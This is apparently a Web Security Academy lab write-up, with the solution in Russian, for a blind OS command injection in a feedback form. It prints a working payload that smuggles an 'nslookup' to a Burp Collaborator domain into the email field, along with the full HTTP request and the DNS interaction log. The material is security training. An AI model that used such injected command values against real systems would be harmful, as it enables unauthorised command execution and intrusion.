 # Blind OS command injection with out-of-band interaction
PRACTITIONER

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Решение
Оформил триал Burp Suite Professional.

В коллабораторе нажал copy to clipboard и вставил в payload таким образом:

`email=test%40server.com;nslookup d0eki0hzhj6kbugtblv25n25qwwnkf84.oastify.com;`
```
POST /feedback/submit HTTP/2
Host: 0a95004d0407506382c8a2f300b30081.web-security-academy.net
Cookie: session=t8JCri5HtxNTEnlIgLmr9oAAq9UTPsvI
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 151
Origin: https://0a95004d0407506382c8a2f300b30081.web-security-academy.net
Referer: https://0a95004d0407506382c8a2f300b30081.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=NZ3ElVzIvTyMk7cir2CBOVngpTB0wNxk&name=pwd&email=test%40server.com;nslookup d0eki0hzhj6kbugtblv25n25qwwnkf84.oastify.com;&subject=whoami&message=id
```
В коллабораторе появились две записи:
```
3	2024-Apr-14 08:22:04.597 UTC	DNS	d0eki0hzhj6kbugtblv25n25qwwnkf84	99.80.34.122	
4	2024-Apr-14 08:22:04.600 UTC	DNS	d0eki0hzhj6kbugtblv25n25qwwnkf84	3.251.128.101	
```
Задание выполнено.
